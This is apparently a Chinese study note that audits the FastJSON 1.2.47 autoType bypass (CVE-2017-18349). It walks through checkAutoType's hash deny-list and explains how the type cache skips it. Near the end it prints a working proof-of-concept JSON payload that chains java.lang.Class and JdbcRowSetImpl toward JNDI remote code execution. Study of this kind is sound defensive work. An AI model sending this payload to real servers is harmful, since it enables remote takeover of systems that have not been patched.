






# Fastjson1.2.47
>1.2.47 是 FastJSON 历史上影响范围最大、最经典的绕过链

## 核心原理
绕过了 checkAutoType() 的调用逻辑，而不是硬刚黑名单

## 源码审计

### 1.2.24中@type的处理逻辑
```java
if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect))
    // ↑ 1. DEFAULT_TYPE_KEY = "@type" 
    //    并且没有禁用特殊key检测（默认是启用的，所以条件成立）
{
    String typeName = lexer.scanSymbol(symbolTable, '"');
    // ↑ 2. 获取 @type 的值，比如 "java.lang.Runtime"
    Class<?> clazz = TypeUtils.loadClass(typeName, config.getDefaultClassLoader());
    // ↑ 3. 【漏洞根源】直接加载类！没有任何安全检查！
    //    攻击者可以指定任意类名，包括危险类
```
**这是 java.lang.ClassLoader.loadClass() 的直接调用**

攻击者可以传入：

```json
{
    "@type": "java.lang.Runtime"
}
```
clazz 就是 Runtime.class
```java
if (lexer.token() == JSONToken.RBRACE) 
// 如果 JSON 对象是空 {}，直接创建实例
{
    lexer.nextToken(JSONToken.COMMA);
    try {
        Object instance = null;
        ObjectDeserializer deserializer = this.config.getDeserializer(clazz);
        if (deserializer instanceof JavaBeanDeserializer) {
            instance = ((JavaBeanDeserializer) deserializer).createInstance(this, clazz);
        }

        if (instance == null) {
            if (clazz == Cloneable.class) {
                instance = new HashMap();
            } else if ("java.util.Collections$EmptyMap".equals(typeName)) {
                instance = Collections.emptyMap();
            } else {
                instance = clazz.newInstance();
                // ← 反射调用构造函数！
            }
        }

        return instance;
```
### 1.2.47中@type的处理逻辑差异
>引入checkAutoType()
>
>全局缓存绕过

```java
Class<?> clazz = config.checkAutoType(typeName, null, lexer.getFeatures());
//
//...
if (Map.class.isAssignableFrom(clazz) ) {
    // 如果 @type 指定的是 Map 类型，直接返回
    // 不做反序列化
    continue;
}

```
**追踪config.checkAutoType()**

**阶段一**：前置检查（基础防御）

```java
if (typeName == null) {
    return null;
}

if (typeName.length() >= 128 || typeName.length() < 3) {
    throw new JSONException("autoType is not support. " + typeName);
}

String className = typeName.replace('$', '.');
```

- 类名不能为空

- 类名长度必须在3-128之间（防止过长的类名攻击）

- 将 $ 替换为 .（处理内部类）

**阶段二：特殊类名快速拦截,Hash黑名单检查（关键防御点）**

```java
final long BASIC = 0xcbf29ce484222325L;
final long PRIME = 0x100000001b3L;

final long h1 = (BASIC ^ className.charAt(0)) * PRIME;
if (h1 == 0xaf64164c86024f1aL) { // [
    throw new JSONException("autoType is not support. " + typeName);
}

if ((h1 ^ className.charAt(className.length() - 1)) * PRIME == 0x9198507b5af98f0L) {
    throw new JSONException("autoType is not support. " + typeName);
}

final long h3 = (((((BASIC ^ className.charAt(0))
        * PRIME)
        ^ className.charAt(1))
        * PRIME)
        ^ className.charAt(2))
        * PRIME;
```

这里使用FNV-1a哈希算法计算类名的哈希值，然后与黑名单/白名单的哈希值对比。

- 性能更好（整数比较比字符串比较快）

- 防止黑名单被轻易识别（但可以通过碰撞攻击绕过）

**阶段三：白名单检查（autoTypeSupport 或 expectClass != null）**

```java
if (autoTypeSupport || expectClass != null) {
    long hash = h3;
    for (int i = 3; i < className.length(); ++i) {
        hash ^= className.charAt(i);
        hash *= PRIME;
        if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
            if (clazz != null) {
                return clazz;
            }
        }
        if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
            throw new JSONException("autoType is not support. " + typeName);
        }
    }
}
```

- 如果 autoTypeSupport=true 或 expectClass != null，进入白名单检查

- 在白名单中的类允许加载

- 在黑名单中且不在mapping 缓存中的类抛出异常

**阶段四：从缓存获取类（绕过点之一）**

```java
if (clazz == null) {
    clazz = TypeUtils.getClassFromMapping(typeName);
}

if (clazz == null) {
    clazz = deserializers.findClass(typeName);
}
```

这就是 
java.lang.Class 能存活的根本原因：

- java.lang.Class、java.lang.Object、java.util.HashMap 等基础类被 FastJSON 预置在缓存中

- 这些类在启动时通过 TypeUtils.addBaseClassMappings 放入 mappings
 
- 在进入黑白名单检查之前，它已经在缓存里了，直接返回，不经过任何拦截逻辑。

如果 mapping 缓存里没有，就去 deserializers 缓存里找。
某些类因为有自己的反序列化器（比如 Date、Collection 等），也相当于被“预信任”了。

**关键点**： 如果类已经在缓存中（TypeUtils.getClassFromMapping 或 deserializers.findClass），**直接返回，不再检查黑名单**！

```java
if (clazz != null) {
    if (expectClass != null
            && clazz != java.util.HashMap.class
            && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    }
    return clazz;
}
```


- 只要从缓存中拿到了类（clazz != null）,就绕过了后面所有的 autoTypeSupport 拦截逻辑！

```java
deserializers.put(Class.class, MiscCodec.instance);
```
```java
if (clazz == Class.class) {
    return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
}
```
对于Class.class的值的处理，会直接加载类到全局缓存中

```java
public static Class<?> loadClass(String className, ClassLoader classLoader) {
    return loadClass(className, classLoader, true);
}
```
方法签名中：cache为true会使"com.sun.rowset.JdbcRowSetImpl" → JdbcRowSetImpl.class 被存入 mappings 缓存

接下来加载com.sun.rowset.JdbcRowSetImpl该类时会在缓存加载那一步就被加载并返回直接绕过后面autoTypeSupport的检查


## RCE复现
[1.2.47RCE复现](../../../../practice/cve/Fastjson-CVE-2017-18349/Fastjson-CVE-2017-18349-1.2.47.md)

## POC
```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"RMI地址",
        "autoCommit":"true"
    }
   
}
```

## 调用链
```
阶段一：解析a
    |
    config.checkAutoType            //对Class.class进行检查
    |
    TypeUtils.getClassFromMapping   //从内置缓存加载
        |
        MiscCodec.deserialize       //处理Class.class的值
            |
            TypeUtils.loadClass     //加载com.sun.rowset.JdbcRowSetImpl，并存入缓存中
                |
                阶段二：解析b
                    |
                    TypeUtils.getClassFromMapping      //从缓存中加载类
                    |
                    绕过autoTypeSupport检查
                        |
                        加载并返回com.sun.rowset.JdbcRowSetImpl
                            |
                            JNDI
                            |
                            RCE
```

## 追踪方法调用

**加载Class.class**


命中内置缓存，返回类


**处理@type的值：加载目标类**


**将com.sun.rowset.JdbcRowSetImpl类写入全局缓存**



**加载com.sun.rowset.JdbcRowSetImpl类**

直接走缓存这一步


**加载返回该类**


成功绕过autoTypeSupport检查